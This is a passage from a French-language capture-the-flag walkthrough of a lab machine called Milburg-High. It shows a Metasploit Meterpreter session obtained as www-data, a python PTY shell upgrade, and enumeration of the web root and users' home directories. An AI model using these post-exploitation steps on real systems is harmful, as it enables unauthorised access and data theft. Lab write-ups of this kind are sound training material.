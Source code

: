 ```console 
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : Milburg-High
OS              : Linux 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23)
Architecture    : x64
System Language : C
Meterpreter     : python/linux

meterpreter > shell
Process 10727 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

$ python -c 'import pty; pty.spawn("/bin/bash")'

www-data@Milburg-High:/var/www/html$
www-data@Milburg-High:/var/www/html$ ls   
ls
WIP.jpg        dev_shell.php.bak   lat_memo.html   robots.txt
about.html     dev_shell_back.png  login.html	   school_badge.png
contact.html   index.html	   	   news.html
dev_shell.php  index.html.bak	   passwords.html
```

Partons à la recherche de fichiers intéressants...

## Bob J

```console
www-data@Milburg-High:/home$ ls -al
ls -al
total 24
drwxr-xr-x  6 root   root   4096 Mar  4 13:45 .
drwxr-xr-x 22 root   root   4096 Mar  5 04:50 ..
drwxr-xr-x 18 bob    bob    4096 Mar  8 23:31 bob
drwxr-xr-x 15 elliot elliot 4096 Feb 27 18:38 elliot
drwxr-xr-x 15 jc     jc     4096 May  8 15:08 jc
drwxr-xr-x 15 seb    seb    4096 May  8 14:10 seb

www-data@Milburg-High:/home$ ls -al bob
ls -al bob
total 172
drwxr-xr-x 18 bob  bob   4096 Mar  8 23:31 .
drwxr-xr-x  6 root root  4096 Mar  4 13:45 ..
-rw-------  1 bob  bob   1980 Mar  8 23:31 .ICEauthority
-rw-------  1 bob  bob    214 Mar  8 23:48 .Xauthority
-rw-------  1 bob  bob   6403 Mar  8 23:48 .bash_history
-rw-r--r--  1 bob  bob    220 Feb 21 18:10 .bash_logout
-rw-r--r--  1 bob  bob   3548 Mar  5 01:14 .bashrc
drwxr-xr-x  7 bob  bob   4096 Feb 21 18:15 .cache
drwx------  8 bob  bob   4096 Feb 27 17:56 .config
-rw-r--r--  1 bob  bob     55 Feb 21 18:22 .dmrc
drwxr-xr-x  2 bob  bob   4096 Feb 21 19:48 .ftp
drwx------  3 bob  bob   4096 Mar  5 00:45 .gnupg
```
